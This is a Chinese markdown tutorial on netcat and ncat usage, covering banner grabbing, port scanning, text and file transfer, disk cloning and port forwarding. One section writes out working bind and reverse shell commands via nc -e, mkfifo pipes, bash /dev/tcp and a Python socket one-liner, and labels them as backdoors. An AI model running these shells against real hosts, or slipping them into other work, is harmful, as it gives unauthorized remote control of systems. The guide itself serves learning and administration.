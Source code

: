 # NETCAT--NC

> `NC`=`NETCAT` ==> `NCat` ==> `NMap`  
> `ncat`命令属于`nc`命令的强化版，有一些参数会不一致
> 在红帽发行版中: 
> * 6: 存在`nc`和`nmap`两个包, `ncat`命令需要安装`nmap`
> * 7: `nc`是`ncat`的软链接, 来自于`nmap-ncat`包

* 网络工具中的瑞士军刀
* 侦听模式/传输模式
* telnet/获取banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件
* 远程控制/木马
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘

## NC--TELNET/BANNER

测试22端口: 

```sh
shell> nc -nv 192.168.1.62 22
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.62:22.
SSH-2.0-OpenSSH_5.3
```

连接25端口发送邮件:

```sh
shell> nc -v smtp.163.com 25
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 220.181.12.14:25.
220 163.com Anti-spam GT for Coremail System (163com[20141201])
```

端口扫描(ncat没有此功能，需要使用`netcat`或者`nmap`)：

```sh
nc -nv -z -w 1 [target_IP] [Start_target_port-Stop_target_port]

# -w: 设置连接超时时间
# -z: zero I/O 模式，专用于端口扫描。表示对目标IP发送的数据表中不包行任何payload，这样可以加快扫描的速度。
```

获取banner:

```sh
echo " " | nc -nv -z -w 1 [target_IP] [Start_target_port-Stop_target_port]
```


## NC--传输文本信息

服务端使用 `nc` 监听一个端口，客户端连接此端口以后，可以发送文本信息。

交互界面相互发送信息(有一边断开，数据就无法发送，连接失效)：

> `nc`与`ncat`存在区别： 
> * (1)
>   * 服务端使用`nc`发起监听，服务端断开以后，客户端也会自动断开；
>   * 服务端使用`ncat` 发起监听，服务端断开以后，客户端不会自动断开(`CLOSE_WAIT`)，发送数据的时候检测失败，才会提示`Ncat: Broken pipe.`；
>   * 客户端断开，两者服务端都会断开
> * (2)
>   * 服务端使用`nc` 通过管道发送数据，传输结束后会自动中断
>   * 服务端使用`ncat`通过管道发送数据，传输结束后不会自动中断; 此时服务端可以接收数据, 但无法发送(**此时`ncat`需要从标准输出接受数据**)
> * (3)
>   * `ncat`无端口扫描功能，需要使用`nmap`或者单独安装`nc`


```sh
A: nc -l 333
B: nc -nv <IP-A> 333
```

利用管道符发送信息：

> 注: `ncat`不自动断开连接，可以使用 `-i <N>` 指定自动断开时间(s) (有些发行版需要使用 `-q <N>`)

```sh
A: nc -l 333
B: lsof | nc -nv <IP-A> 333
B: ps -ef | nc -nv <IP-A> 333 -q 1     # 发送成功，等待1s自动断开连接
```

服务端保持持久监听(即使客户端连接断开，服务端一直保持监听)：

```sh
A: nc -l 333 -k                        # 7版本还可以使用长参数 --keep-open
B: nc -nv <IP-A> 333
B: nc -nv -s <IP-B> <PORT> <IP-A> 333  # 指定发起连接的IP和端口
```

## NC--传输文件/目录

* **传输文件**

```sh
A: nc -l 333 > video1.mp4
B: nc -nv <IP> 333 < video1.mp4
```

```sh
A: nc -l 333 < video2.mp4
B: nc -nv <IP> 333 > video2.mp4
```

* **传输目录**

```sh
A: tar cf - dir/ | nc -l 333
B: nc -nv <IP> 333 | tar xf -
```

* **加密传输文件**

```sh
A: nc -l 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > video3.mp4
B: mcrypt --flush -Fbq -a rijndael-256 -m ecb < video3.mp4 | nc -nv <IP> 333
```

## NC--远程克隆硬盘

```sh
A： nc -l 333 | dd of=/dev/sda
B: dd if=/dev/sda | nc -nv <IP-A> 333
```


## NC--网络控制/建立后门/反弹shell

监听型(客户端使用服务端shell)：

```sh
A: nc -l 333 -e /bin/bash
B: nc -nc <IP-A> 333
```

连接型(服务端可使用客户端shell)：

```sh
A: nc -l 333
B: nc -nv <IP-A> 333 -e /bin/bash
```

> RHEL6 安装的`nc`不支持`-e`和`-c`选项，需要使用`ncat`，或者使用以下几种办法方法。

监听型：

```sh
A: mkfifo /tmp/backpipe
A: cat /tmp/backpipe | /bin/bash -i 2>&1 | nc -l 333 >/tmp/backpipe
B: nc -nv <IP-A> 333
```

连接型：

```sh
A: nc -l 333
B: mknod /tmp/backpipe p    # 等同于 mkfifo /tmp/backpipo
B: /bin/bash 0</tmp/backpipe | nc <IP-A> 333 >/tmp/backpipe
```

两个端口实现：

```sh
A: nc -l 333
A: nc -l 334
B: nc -nv <IP-A> 333 | /bin/bash 2>&1 | nc -nv <IP-A> 334  # 333端口接受输入，334端口发送输出
```


一端未安装`netcat`或者`ncat`(监听型)：

* shell实现

```sh
A: nc -l 333
B: /bin/bash -i >& /dev/tcp/<IP-A>/333 0>&1

# /bin/bash -i : 交互模式启动bash shell
# >& : 重定向符，如果在其后面加文件描述符， 则将bash -i交互模式传递给文件描述符号；如果是文件，则传递给文件
#      /dev/tcp/<IP>/<PORT> 表示传递给远程主机的TCP <IP:PORT>端口
# 文件描述符： 0: 标准输入；1: 标准输出；2:标准错误 
# 0>&1 : 标准输入重定向到标准输出，实现远程的输入可以在远程输出对应的内容(B端的输入能够作为输出被A端bash接受)
```

* Python实现

```sh
A: nc -l 333
B: python -c "import os, socket, subprocess; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('<IP-A>', 333)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(['/bin/bash', '-i']);"
```

## NC--连接转发/端口转发

```sh
A: nc -l 333
B: nc -l 333 -e '/usr/bin/nc <IP-A> 333'
C: nc -l <IP-B> 333

# 编辑脚本/root/B_to_A_333.sh, 内容为 /usr/bin/nc <IP-A> 333
# 这样的话， 以下两条中方式都可以实现以上的同等效果
B: nc -l 333 -c '/root/B_to_A_333.sh'
B: nc -l 333 -e '/bin/bash /root/B_to_A_333.sh'
```



本文参考资料来源有：

* 2019最新黑客工具——Netcat的使用： [https://www.bilibili.com/video/BV16t411c7nd](https://www.bilibili.com/video/BV16t411c7nd)
* B站UP主"东坡东坡肉"的投稿： [https://www.bilibili.com/video/BV1gJ411t7R7](https://www.bilibili.com/video/BV1gJ411t7R7)
